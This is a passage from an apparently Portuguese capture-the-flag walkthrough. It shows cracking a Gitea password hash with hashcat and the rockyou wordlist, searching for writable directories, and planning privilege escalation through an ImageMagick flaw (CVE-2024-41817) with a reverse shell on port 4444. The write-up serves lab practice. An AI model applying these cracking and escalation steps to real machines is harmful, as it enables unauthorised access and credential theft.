 ```python
conn.close()
```

Com o hash formatado corretamente, podemos então usar o hashcat para quebrá-lo:

4. Quebramos o hash usando hashcat:

```bash
hashcat -m 10900 -w 3 gitea.hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show --user
```

5. Agora podemos acessar a máquina com as credenciais de "developer", e
   coletamos a primeira flag.

## Post Exploitation

1. Poderíamos executar o linpeas para identificar as possibilidades de
   escalonamento de privilégios, porém nesse caso listaremos apenas os
   diretórios graváveis pelo nosso usuário.

```bash
find / -type d -writable 2>/dev/null
```

```text
...
/opt/app/static/assets/images
/opt/app/tickets
...
```

2. Ao explorar os diretórios /opt/scripts, podemos identificar um script.

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

O script parece utilizar o ImageMagick para identificar imagens no diretórios
`/opt/app/static/assets/images` e grava a saída no arquivo metadata.log.

## Escalação de Privilégios

4. Podemos verificar a versão do ImageMagick para procurar por vulnerabilidades.
   Pesquisando no google encontramos a CVE-2024–41817 que podemos utilizar para
   escalar privilégio e coletar a flag de root.

```text
Version: ImageMagick 7.1.1-35
```

Na nossa máquina local, iremos ficar escutando na porta 4444, pois é a porta que
iremos configurar na biblioteca compartilhada que executará nossa shell reversa.
